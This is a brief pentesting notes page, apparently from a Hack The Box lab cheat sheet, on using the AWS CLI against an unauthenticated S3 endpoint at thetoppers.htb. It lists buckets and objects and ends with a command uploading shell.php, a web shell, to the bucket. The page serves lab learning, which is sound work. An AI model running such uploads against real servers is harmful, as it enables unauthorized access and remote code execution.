 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AWS

## Usage

If the server does not check for authentication, we can put anything before connecting.

```bash
aws configure
```

{% tabs %}
{% tab title="Listing Buckets" %}
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```
{% endtab %}

{% tab title="Listing Objects" %}
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
{% endtab %}

{% tab title="Upload" %}
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="awscli" %}
{% embed url="https://github.com/aws/aws-cli" %}
{% endtab %}
{% endtabs %}
